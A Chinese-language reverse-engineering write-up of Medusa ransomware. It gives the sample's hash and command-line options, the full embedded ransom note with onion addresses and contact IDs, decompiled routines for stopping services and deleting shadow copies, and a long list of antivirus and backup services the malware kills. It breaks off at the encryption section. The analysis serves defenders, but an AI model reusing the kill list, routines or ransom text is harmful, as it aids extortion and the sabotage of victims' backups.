




# 美杜莎勒索病毒

## 一、基本信息

```
MD5：47386ee20a6a94830ee4fa38b419a6f7

加密文件扩展名：.MEDUSA
勒索信文件名：	!!!READ_ME_MEDUSA!!!.txt
感染症状：无法打开文件，文件拓展名被修改。文件夹显示勒索信。
```


## 二、运行流程

先输出一个莫名其妙的`--start--`

运行之前还给人提醒一下……


随后会检查一下目标配置，解析命令行参数


随后会根据解析的命令行参数进行不同的操作


-V是获取当前版本


-d是是否自删除，不执行则将自删除


、

-f是是否排除系统目录


-i是指定加密目录


-k为密钥文件路径


-n为是否加密网络驱动


-p为是否执行预处理


-s为是否加密系统驱动


-t为勒索信路径


-v为是否启用黑窗口


-w为设置powershell路径与其初始化


### 1、密钥文件

如果存在密钥文件，就读取并尝试解密


### 2、勒索信

如果有勒索信文件则会打开，如果没有则使用默认勒索信






```
.data:00D68128 asc_D68128 db '$$\      $$\ $$$$$$$$\ $$$$$$$\  $$\   $$\  $$$$$$\   $$$$$$\  ',0Dh
.data:00D68128                                         ; DATA XREF: sub_CE5360+29B↑o
.data:00D68128                                         ; sub_CE5360+2B0↑o ...
.data:00D68128 db 0Ah
.data:00D68128 db '$$$\    $$$ |$$  _____|$$  __$$\ $$ |  $$ |$$  __$$\ $$  __$$\ ',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db '$$$$\  $$$$ |$$ |      $$ |  $$ |$$ |  $$ |$$ /  \__|$$ /  $$ |',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db '$$\$$\$$ $$ |$$$$$\    $$ |  $$ |$$ |  $$ |\$$$$$$\  $$$$$$$$ |',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db '$$ \$$$  $$ |$$  __|   $$ |  $$ |$$ |  $$ | \____$$\ $$  __$$ |',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db '$$ |\$  /$$ |$$ |      $$ |  $$ |$$ |  $$ |$$\   $$ |$$ |  $$ |',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db '$$ | \_/ $$ |$$$$$$$$\ $$$$$$$  |\$$$$$$  |\$$$$$$  |$$ |  $$ |',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db '\__|     \__|\________|\_______/  \______/  \______/ \__|  \__|',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db '-----------------------------[ Hello, PetroChina  !!! ]----------'
.data:00D68128 db '----------------',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'WHAT HAPPEND?',0Dh,0Ah
.data:00D68128 db '------------------------------------------------------------',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db '1. We have PENETRATE your network and COPIED data.',0Dh,0Ah
.data:00D68128 db '* We have penetrated entire network including backup system and r'
.data:00D68128 db 'esearched all about your data.',0Dh,0Ah
.data:00D68128 db '* And we have extracted all of your important and valuable data a'
.data:00D68128 db 'nd copied them to private cloud storage.',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db '2. We have ENCRYPTED your files.',0Dh,0Ah
.data:00D68128 db 'While you are reading this message, it means all of your files an'
.data:00D68128 db 'd data has been ENCRYPTED by world',27h,'s strongest ransomware.',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db 'All files have encrypted with new military-grade encryption algor'
.data:00D68128 db 'ithm and you can not decrypt your files.',0Dh,0Ah
.data:00D68128 db 'But don',27h,'t worry, we can decrypt your files.',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'There is only one possible way to get back your computers and ser'
.data:00D68128 db 'vers - CONTACT us via LIVE CHAT and pay for the special ',0Dh,0Ah
.data:00D68128 db 'MEDUSA DECRYPTOR and DECRYPTION KEYs.',0Dh,0Ah
.data:00D68128 db 'This MEDUSA DECRYPTOR will restore your entire network, This will'
.data:00D68128 db ' take less than 1 business day.',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'WHAT GUARANTEES?',0Dh,0Ah
.data:00D68128 db '---------------------------------------------------------------',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db 'We can post your data to the public and send emails to your custo'
.data:00D68128 db 'mers.',0Dh,0Ah
.data:00D68128 db 'We have professional OSINTs and media team for leak data to teleg'
.data:00D68128 db 'ram, facebook, twitter channels and top news websites.',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'You can suffer significant problems due disastrous consequences, '
.data:00D68128 db 'leading to loss of valuable intellectual property and other sensi'
.data:00D68128 db 'tive information, ',0Dh,0Ah
.data:00D68128 db ' costly incident response efforts, information misuse/abuse, loss'
.data:00D68128 db ' of customer trust, brand and reputational damage, legal and regu'
.data:00D68128 db 'latory issues.',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db '    https://breached.vc/Forum-Leaks',0Dh,0Ah
.data:00D68128 db '    https://www.nulled.to/#!Leaks',0Dh,0Ah
.data:00D68128 db '    https://t.me/+yXOcSjVjI9tjM2E0',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'After paying for the data breach and decryption, we guarantee tha'
.data:00D68128 db 't your data will never be leaked and this is also for our reputat'
.data:00D68128 db 'ion.',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'YOU should be AWARE!',0Dh,0Ah
.data:00D68128 db '---------------------------------------------------------------',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db 'We will speak only with an authorized person. It can be the CEO, '
.data:00D68128 db 'top management, etc.',0Dh,0Ah
.data:00D68128 db 'In case you ar not such a person - DON',27h,'T CONTACT US! Your d'
.data:00D68128 db 'ecisions and action can result in serious harm to your company!',0Dh
.data:00D68128 db 0Ah
.data:00D68128 db 'Inform your supervisors and stay calm!',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'If you do not contact us within 3 days, We will start publish you'
.data:00D68128 db 'r case to our official blog and everybody will start notice your '
.data:00D68128 db 'incident!',0Dh,0Ah
.data:00D68128 db '--------------------[ Official blog tor address ]----------------'
.data:00D68128 db '----',0Dh,0Ah
.data:00D68128 db 'Using TOR Browser(https://www.torproject.org/download/):',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'http://medusaxko7jxtrojdkxo66j7ck4q5tgktf7uqsqyfry4ebnxlcbkccyd.o'
.data:00D68128 db 'nion/',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'CONTACT US!',0Dh,0Ah
.data:00D68128 db '----------------------[ Your company live chat address ]---------'
.data:00D68128 db '------------------',0Dh,0Ah
.data:00D68128 db 'Using TOR Browser(https://www.torproject.org/download/):',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'http://medusacegu2ufmc3kx2kkqicrlcxdettsjcenhjena6uannk5f4ffuyd.o'
.data:00D68128 db 'nion/6FpWYNh2VT8tLYAkeQ0P',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'Or Use Tox Chat Program(https://qtox.github.io/)',0Dh,0Ah
.data:00D68128 db 'Add user with our tox ID : 4AE245548F2A225882951FB14E9BF87EE01A0C'
.data:00D68128 db '10AE159B99D1EA62620D91A372205227254A9F',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'Our support email: ( medusa.serviceteam@protonmail.com )',0Dh,0Ah
.data:00D68128 db 0Dh,0Ah
.data:00D68128 db 'Company identification hash:',0Dh,0Ah,0
```

### 3、预处理

先获取了一些白名单和服务、貌似会包括在之前命令行参数中设置的，具体操作推测是解密或者备份


```c
  sub_CD56B0();                                 // 没看懂这个函数在干嘛……
  TickCount64 = GetTickCount64();
  if ( v48 )
  {
    v55 = 0;
    v56 = 15;
    LOBYTE(Src[0]) = 0;
    MemoryOption(Src, v48, strlen(v48));
    v63 = 3;
    v28 = v55;
    if ( v55 <= v55 - 1 )
      sub_CEBFF0();
    v29 = Src;
    if ( v56 >= 0x10 )
      v29 = (void **)Src[0];
    v53 = v56 >= 0x10;
    if ( *((_BYTE *)v29 + v55 - 1) == 58 )
    {
      v30 = Src;
      if ( v56 == v55 )
      {
        LOBYTE(v48) = 0;
        BufferReSet(Src, 1, (int)v48, (int)&byte_D58FCC, 1u);
      }
      else
      {
        ++v55;
        if ( v53 )
          v30 = (void **)Src[0];
        *((_BYTE *)v30 + v28) = 92;
        *((_BYTE *)v30 + v28 + 1) = 0;
      }
    }
    memset(&v62[20], 0, 0x50u);
    sub_CE7EA0(&v62[20]);
    LOBYTE(v63) = 4;
    v31 = Src;
    if ( v56 >= 0x10 )
      v31 = (void **)Src[0];
    sub_CEA370(Block, v31, (char *)v31 + v55);
    sub_CE7DE0(&v62[20]);
    LOBYTE(v63) = 5;
    printf(":In Path = %ws\n");
    v32 = Block;
    if ( v58 >= 8 )
      v32 = (void **)Block[0];
    sub_CE1720(v32);
    LOBYTE(v63) = 3;
    if ( v58 >= 8 )
    {
      v33 = Block[0];
      if ( 2 * v58 + 2 >= 0x1000 )
      {
        v33 = (void *)*((_DWORD *)Block[0] - 1);
        if ( (unsigned int)(Block[0] - v33 - 4) > 0x1F )
          goto LABEL_114;
      }
      sub_D07FFE(v33);
    }
    v63 = -1;
    Block[4] = 0;
    v58 = 7;
    LOWORD(Block[0]) = 0;
    if ( v56 >= 0x10 )
    {
      v34 = Src[0];
      if ( v56 + 1 >= 0x1000 )
      {
        v34 = (void *)*((_DWORD *)Src[0] - 1);
        if ( (unsigned int)(Src[0] - v34 - 4) > 0x1F )
          goto LABEL_114;
      }
      sub_D07FFE(v34);
    }
  }
  else
  {
    printf(":System\n");
    PreProcess();
  }
```

随后进入预处理函数


```c
int sub_CE3B20()
{
  void *ThreadLocalStoragePointer; // edi
  const char *v1; // esi
  _BYTE *v2; // ecx
  const char *v3; // esi
  unsigned int v4; // eax
  _BYTE *v5; // ecx
  _BYTE *Block; // [esp+30h] [ebp-230h]
  unsigned int v8; // [esp+44h] [ebp-21Ch]
  char v9[516]; // [esp+58h] [ebp-208h] BYREF

  printf("kill_services processes\n");
  memset(v9, 0, 0x200u);
  ThreadLocalStoragePointer = NtCurrentTeb()->ThreadLocalStoragePointer;
  v1 = (const char *)&unk_D6A4A0;
  do
  {
    if ( strlen(v1) )
    {
      printf("kill_services %s\n");
      if ( dword_D6F4C4 > *(_DWORD *)(*(_DWORD *)ThreadLocalStoragePointer + 4) )
      {
        _Init_thread_header(&dword_D6F4C4);
        if ( dword_D6F4C4 == -1 )
        {
          xmmword_D71420 = xmmword_D5A490;
          byte_D71430 = 46;
          atexit(sub_D49060);
          _Init_thread_footer(&dword_D6F4C4);
        }
      }
      if ( byte_D71430 )
      {
        byte_D71430 ^= 0x2Eu;
        xmmword_D71420 = (__int128)_mm_xor_si128((__m128i)xmmword_D5A190, (__m128i)xmmword_D71420);
      }
      sub_CD2310(v9, (const char *)&xmmword_D71420, v1);
      sub_CE4E40(1);
      if ( v8 >= 0x10 )
      {
        v2 = Block;
        if ( v8 + 1 >= 0x1000 )
        {
          v2 = (_BYTE *)*((_DWORD *)Block - 1);
          if ( (unsigned int)(Block - v2 - 4) > 0x1F )
LABEL_27:
            _invalid_parameter_noinfo_noreturn();
        }
        sub_D07FFE(v2);
      }
    }
    v1 += 50;
  }
  while ( (int)v1 < (int)&unk_D6CBB0 );
  v3 = (const char *)&unk_D6CBB0;
  do
  {
    if ( strlen(v3) )
    {
      printf("kill_processes %s\n");
      LOWORD(v8) = 11898;
      if ( dword_D7109C > *(_DWORD *)(*(_DWORD *)ThreadLocalStoragePointer + 4) )
      {
        _Init_thread_header(&dword_D7109C);
        if ( dword_D7109C == -1 )
        {
          dword_D707A0 = 17718539;
          xmmword_D70790 = xmmword_D5A110;
          word_D707A4 = 11898;
          atexit(sub_D49040);
          _Init_thread_footer(&dword_D7109C);
        }
      }
      if ( HIBYTE(word_D707A4) )
      {
        v4 = 16;
        xmmword_D70790 = (__int128)_mm_xor_si128((__m128i)xmmword_D5A190, (__m128i)xmmword_D70790);
        do
          *((_BYTE *)&xmmword_D70790 + v4++) ^= 0x2Eu;
        while ( v4 < 0x16 );
      }
      sub_CD2310(v9, (const char *)&xmmword_D70790, v3);
      sub_CE4E40(1);
      if ( v8 >= 0x10 )
      {
        v5 = Block;
        if ( v8 + 1 >= 0x1000 )
        {
          v5 = (_BYTE *)*((_DWORD *)Block - 1);
          if ( (unsigned int)(Block - v5 - 4) > 0x1F )
            goto LABEL_27;
        }
        sub_D07FFE(v5);
      }
    }
    v3 += 50;
  }
  while ( (int)v3 < (int)&dword_D6F2C0 );
  return 0;
}
```

```c
int __cdecl sub_CE3DE0()
{
  int *ThreadLocalStoragePointer; // eax
  unsigned int i; // eax
  _BYTE *v2; // ecx
  unsigned int j; // eax
  int v4; // ecx
  void *v5; // ecx
  _BYTE *v6; // esi
  _BYTE *v7; // eax
  int v9; // [esp+34h] [ebp-1E8h]
  int v10; // [esp+F4h] [ebp-128h]
  void *Block; // [esp+FCh] [ebp-120h]
  void *v12[2]; // [esp+108h] [ebp-114h]
  unsigned int v13; // [esp+110h] [ebp-10Ch]
  void *v14[4]; // [esp+12Ch] [ebp-F0h]
  __int64 v15; // [esp+13Ch] [ebp-E0h]
  int v16; // [esp+218h] [ebp-4h]

  printf("delete_shadow_copies\n");
  ThreadLocalStoragePointer = (int *)NtCurrentTeb()->ThreadLocalStoragePointer;
  v10 = 777669447;
  v9 = *ThreadLocalStoragePointer;
  if ( dword_D70A8C > *(_DWORD *)(*ThreadLocalStoragePointer + 4) )
  {
    _Init_thread_header(&dword_D70A8C);
    if ( dword_D70A8C == -1 )
    {
      xmmword_D70848 = xmmword_D5A100;
      xmmword_D70858 = xmmword_D5A500;
      dword_D70868 = v10;
      atexit(sub_D49100);
      _Init_thread_footer(&dword_D70A8C);
    }
  }
  if ( HIBYTE(dword_D70868) )
  {
    for ( i = 0; i < 0x20; i += 16 )
      *(__int128 *)((char *)&xmmword_D70848 + i) = (__int128)_mm_xor_si128(
                                                               *(__m128i *)((char *)&xmmword_D70848 + i),
                                                               (__m128i)xmmword_D5A190);
    for ( ; i < 0x24; ++i )
      *((_BYTE *)&xmmword_D70848 + i) ^= 0x2Eu;
  }
  sub_CE4E40(1);
  if ( v13 >= 0x10 )
  {
    v2 = Block;
    if ( v13 + 1 >= 0x1000 )
    {
      v2 = (_BYTE *)*((_DWORD *)Block - 1);
      if ( (unsigned int)((_BYTE *)Block - v2 - 4) > 0x1F )
        goto LABEL_30;
    }
    sub_D07FFE(v2);
  }
  v13 = 0;
  *(_QWORD *)v12 = 0i64;
  sub_CE1450();
  v16 = 0;
  v10 = 777669447;
  if ( dword_D70788 > *(_DWORD *)(v9 + 4) )
  {
    _Init_thread_header(&dword_D70788);
    if ( dword_D70788 == -1 )
    {
      xmmword_D7043C = xmmword_D5A100;
      xmmword_D7044C = xmmword_D5A500;
      dword_D7045C = v10;
      atexit(sub_D490A0);
      _Init_thread_footer(&dword_D70788);
    }
  }
  if ( HIBYTE(dword_D7045C) )
  {
    for ( j = 0; j < 0x20; j += 16 )
      *(__int128 *)((char *)&xmmword_D7043C + j) = (__int128)_mm_xor_si128(
                                                               (__m128i)xmmword_D5A190,
                                                               *(__m128i *)((char *)&xmmword_D7043C + j));
    for ( ; j < 0x24; ++j )
      *((_BYTE *)&xmmword_D7043C + j) ^= 0x2Eu;
  }
  sub_CE4E40(1);
  if ( HIDWORD(v15) >= 0x10 )
  {
    v5 = v14[0];
    if ( (unsigned int)(HIDWORD(v15) + 1) >= 0x1000 )
    {
      v5 = (void *)*((_DWORD *)v14[0] - 1);
      if ( (unsigned int)(v14[0] - v5 - 4) > 0x1F )
        goto LABEL_30;
    }
    sub_D07FFE(v5);
  }
  v6 = v12[0];
  if ( v12[0] )
  {
    sub_CED9B0(v12[0], v12[1], v4);
    v7 = v6;
    if ( (unsigned int)(24 * ((int)(v13 - (_DWORD)v6) / 24)) < 0x1000
      || (v6 = (_BYTE *)*((_DWORD *)v6 - 1), (unsigned int)(v7 - v6 - 4) <= 0x1F) )
    {
      sub_D07FFE(v6);
      return 0;
    }
LABEL_30:
    _invalid_parameter_noinfo_noreturn();
  }
  return 0;
}
```

预处理基本就是用powershll杀死一些进程

```
"Acronis VSS Provider","Enterprise Client Service","Sophos Agent","Sophos AutoUpdate Service","Sophos Clean Service","Sophos Device Control Service","Sophos File Scanner Service","Sophos Health Service","Sophos MCS Agent","Sophos MCS Client","Sophos Message Router","Sophos Safestore Service","Sophos System Protection Service","Sophos Web Control Service","SQLsafe Backup Service","SQLsafe Filter Service","Symantec System Recovery","Veeam Backup Catalog Data Service","AcronisAgent","AcrSch2Svc","Antivirus","ARSM","BackupExecAgentAccelerator","BackupExecAgentBrowser","BackupExecDeviceMediaService","BackupExecJobEngine","BackupExecManagementService","BackupExecRPCService","BackupExecVSSProvider","bedbg","DCAgent","EPSecurityService","EPUpdateService","EraserSvc11710","EsgShKernel","FA_Scheduler","IISAdmin","IMAP4Svc","macmnsvc","masvc","MBAMService","MBEndpointAgent","McAfeeEngineService","McAfeeFramework","McAfeeFrameworkMcAfeeFramework","McShield","McTaskManager","mfemms","mfevtp","MMS","mozyprobackup","MsDtsServer","MsDtsServer100","MsDtsServer110","MSExchangeES","MSExchangeIS","MSExchangeMGMT","MSExchangeMTA","MSExchangeSA","MSExchangeSRS","MSOLAP$SQL_2008","MSOLAP$SYSTEM_BGC","MSOLAP$TPS","MSOLAP$TPSAMA","MSSQL$BKUPEXEC","MSSQL$ECWDB2","MSSQL$PRACTICEMGT","MSSQL$PRACTTICEBGC","MSSQL$PROFXENGAGEMENT","MSSQL$SBSMONITORING","MSSQL$SHAREPOINT","MSSQL$SQL_2008","MSSQL$SYSTEM_BGC","MSSQL$TPS","MSSQL$TPSAMA","MSSQL$VEEAMSQL2008R2","MSSQL$VEEAMSQL2012","MSSQLFDLauncher","MSSQLFDLauncher$PROFXENGAGEMENT","MSSQLFDLauncher$SBSMONITORING","MSSQLFDLauncher$SHAREPOINT","MSSQLFDLauncher$SQL_2008","MSSQLFDLauncher$SYSTEM_BGC","MSSQLFDLauncher$TPS","MSSQLFDLauncher$TPSAMA","MSSQLSERVER","MSSQLServerADHelper100","MSSQLServerOLAPService","MySQL80","MySQL57","ntrtscan","OracleClientCache80","PDVFSService","POP3Svc","ReportServer","ReportServer$SQL_2008","ReportServer$SYSTEM_BGC","ReportServer$TPS","ReportServer$TPSAMA","RESvc","sacsvr","SamSs","SAVAdminService","SAVService","SDRSVC","SepMasterService","ShMonitor","Smcinst","SmcService","SMTPSvc","SNAC","SntpService","sophossps","SQLAgent$BKUPEXEC","SQLAgent$ECWDB2","SQLAgent$PRACTTICEBGC","SQLAgent$PRACTTICEMGT","SQLAgent$PROFXENGAGEMENT","SQLAgent$SBSMONITORING","SQLAgent$SHAREPOINT","SQLAgent$SQL_2008","SQLAgent$SYSTEM_BGC","SQLAgent$TPS","SQLAgent$TPSAMA","SQLAgent$VEEAMSQL2008R2","SQLAgent$VEEAMSQL2012","SQLBrowser","SQLSafeOLRService","SQLSERVERAGENT","SQLTELEMETRY","SQLTELEMETRY$ECWDB2","SQLWriter","SstpSvc","svcGenericHost","swi_filter","swi_service","swi_update_64","TmCCSF","tmlisten","TrueKey","TrueKeyScheduler","TrueKeyServiceHelper","UI0Detect","VeeamBackupSvc","VeeamBrokerSvc","VeeamCatalogSvc","VeeamCloudSvc","VeeamDeploymentService","VeeamDeploySvc","VeeamEnterpriseManagerSvc","VeeamMountSvc","VeeamNFSSvc","VeeamRESTSvc","VeeamTransportSvc","W3Svc","wbengine","WRSVC","MSSQL$VEEAMSQL2008R2","SQLAgent$VEEAMSQL2008R2","VeeamHvIntegrationSvc","swi_update","SQLAgent$CXDB","SQLAgent$CITRIX_METAFRAME","SQL Backups","MSSQL$PROD","Zoolz 2 Service","MSSQLServerADHelper","SQLAgent$PROD","msftesql$PROD","NetMsmqActivator","EhttpSrv","ekrn","ESHASRV","MSSQL$SOPHOS","SQLAgent$SOPHOS","AVP","klnagent","MSSQL$SQLEXPRESS","SQLAgent$SQLEXPRESS","wbengine","kavfsslp","KAVFSGT","KAVFS","mfefire","zoolz.exe","agntsvc.exe","dbeng50.exe","dbsnmp.exe","encsvc.exe","excel.exe","firefoxconfig.exe","infopath.exe","isqlplussvc.exe","msaccess.exe","msftesql.exe","mspub.exe","mydesktopqos.exe","mydesktopservice.exe","mysqld.exe","mysqld-nt.exe","mysqld-opt.exe","ocautoupds.exe","ocomm.exe","ocssd.exe","onenote.exe","oracle.exe","outlook.exe","powerpnt.exe","sqbcoreservice.exe","sqlagent.exe","sqlbrowser.exe","sqlservr.exe","sqlwriter.exe","steam.exe","synctime.exe","tbirdconfig.exe","thebat.exe","thebat64.exe","thunderbird.exe","visio.exe","winword.exe","wordpad.exe","xfssvccon.exe","tmlisten.exe","PccNTMon.exe","CNTAoSMgr.exe","Ntrtscan.exe","mbamtray.exe"
```

### 4、驱动处理

会遍历驱动，会根据命令行配置参数，选择要不要掠过网络驱动


```c
_DWORD *__thiscall sub_CE1450(_DWORD *this)
{
  DWORD LogicalDriveStringsW; // edi
  WCHAR *v2; // eax
  _DWORD *v3; // esi
  int v4; // eax
  int v5; // ecx
  WCHAR *v6; // eax
  const WCHAR *v7; // edi
  UINT DriveTypeW; // esi
  unsigned __int16 v9; // cx
  int v10; // eax
  __int128 v11; // xmm0
  unsigned int v12; // eax
  void *v13; // ecx
  void *Block[4]; // [esp+10h] [ebp-48h] BYREF
  __int64 v17; // [esp+20h] [ebp-38h]
  LPCWSTR lpRootPathName; // [esp+28h] [ebp-30h]
  ULARGE_INTEGER FreeBytesAvailableToCaller; // [esp+2Ch] [ebp-2Ch] BYREF
  __int64 v20; // [esp+34h] [ebp-24h]
  int v21; // [esp+3Ch] [ebp-1Ch]
  unsigned __int16 v22; // [esp+40h] [ebp-18h] BYREF
  int v23; // [esp+42h] [ebp-16h]
  __int16 v24; // [esp+46h] [ebp-12h]
  int v25; // [esp+54h] [ebp-4h]

  v20 = 0i64;
  v21 = 0;
  v25 = 0;
  LogicalDriveStringsW = GetLogicalDriveStringsW(0, 0);
  v2 = (WCHAR *)sub_D27A07((unsigned __int64)(LogicalDriveStringsW + 1) >> 31 != 0 ? -1 : 2 * (LogicalDriveStringsW + 1));
  lpRootPathName = v2;
  if ( v2 )
  {
    GetLogicalDriveStringsW(LogicalDriveStringsW, v2);
    v6 = (WCHAR *)lpRootPathName;
    v7 = lpRootPathName;
    if ( *lpRootPathName )
    {
      while ( 2 )
      {
        DriveTypeW = GetDriveTypeW(v7);
        GetDiskFreeSpaceExW(v7, &FreeBytesAvailableToCaller, 0, 0);
        v9 = *v7;
        v24 = 0;
        v22 = v9;
        v23 = 6029370;
        switch ( DriveTypeW )
        {
          case 2u:
            v17 = 0x700000000i64;
            LOWORD(Block[0]) = 0;
            sub_CEA880(Block, &v22, wcslen(&v22));
            LOBYTE(v25) = 2;
            goto LABEL_9;
          case 3u:
            v17 = 0x700000000i64;
            LOWORD(Block[0]) = 0;
            sub_CEA880(Block, &v22, wcslen(&v22));
            LOBYTE(v25) = 1;
            goto LABEL_9;
          case 4u:
            if ( !byte_D680C2 )
              goto LABEL_16;
            v17 = 0x700000000i64;
            LOWORD(Block[0]) = 0;
            sub_CEA880(Block, &v22, wcslen(&v22));
            LOBYTE(v25) = 3;
LABEL_9:
            v10 = HIDWORD(v20);
            if ( HIDWORD(v20) == v21 )
            {
              sub_CED200(HIDWORD(v20), Block);
              v12 = HIDWORD(v17);
            }
            else
            {
              v11 = *(_OWORD *)Block;
              *(_DWORD *)(HIDWORD(v20) + 16) = 0;
              LOWORD(Block[0]) = 0;
              *(_OWORD *)v10 = v11;
              *(_QWORD *)(v10 + 16) = v17;
              v12 = 7;
              HIDWORD(v20) += 24;
            }
            LOBYTE(v25) = 0;
            if ( v12 >= 8 )
            {
              v13 = Block[0];
              if ( 2 * v12 + 2 >= 0x1000 )
              {
                v13 = (void *)*((_DWORD *)Block[0] - 1);
                if ( (unsigned int)(Block[0] - v13 - 4) > 0x1F )
                  _invalid_parameter_noinfo_noreturn();
              }
              sub_D07FFE(v13);
            }
LABEL_16:
            v7 += lstrlenW(v7) + 1;
            if ( *v7 )
              continue;
            v6 = (WCHAR *)lpRootPathName;
            break;
          default:
            goto LABEL_16;
        }
        break;
      }
    }
    sub_D273CA(v6);
    v3 = this;
    *(_QWORD *)this = v20;
    this[2] = v21;
  }
  else
  {
    v3 = this;
    v4 = v20;
    this[1] = HIDWORD(v20);
    v5 = v21;
    *this = v4;
    this[2] = v5;
  }
  v20 = 0i64;
  v21 = 0;
  sub_CE7060();
  return v3;
}
```

### 5、加密

